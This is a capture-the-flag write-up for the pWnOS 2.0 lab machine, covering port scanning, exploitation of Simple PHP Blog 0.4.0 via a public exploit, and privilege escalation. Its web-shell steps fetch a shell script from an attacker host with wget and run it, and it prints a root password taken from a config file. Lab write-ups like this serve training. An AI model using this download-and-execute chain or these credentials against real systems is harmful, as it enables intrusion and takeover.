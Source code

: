 <h1>pWnOS: 2.0 Write-up</h1>

<h2>Nmap</h2>

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.8p1 Debian 1ubuntu3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.2.17 ((Ubuntu))
```

<h3>PORT 80</h3>

Found /blog  using gobuster

whatweb revels **Simple Php Blog 0.4.0** is running 

Exploit : https://www.exploit-db.com/exploits/1191

```./1191.pl -h http://192.168.56.36/blog -e 1```

![alt text](https://raw.githubusercontent.com/Vanshal/Vulnhub-Writeups/master/pWnOS%3A%202.0/Images/exploit.png)

**Execute Commands :**

```
http://192.168.56.36/blog/images/cmd.php?cmd=whoami
http://192.168.56.36/blog/images/cmd.php?cmd=wget http://192.168.56.1/shell.sh -O /tmp/shell.sh
http://192.168.56.36/blog/images/cmd.php?cmd=chmod%20777%20/tmp/shell.sh
http://192.168.56.36/blog/images/cmd.php?cmd=/tmp/shell.sh
```
![alt text](https://raw.githubusercontent.com/Vanshal/Vulnhub-Writeups/master/pWnOS%3A%202.0/Images/shell.png)


<h2>Privilege Escalation : </h2>

on /var there is a file named mysqli_connect.php which contains root password

```
username : root 
password : root@ISIntS
```
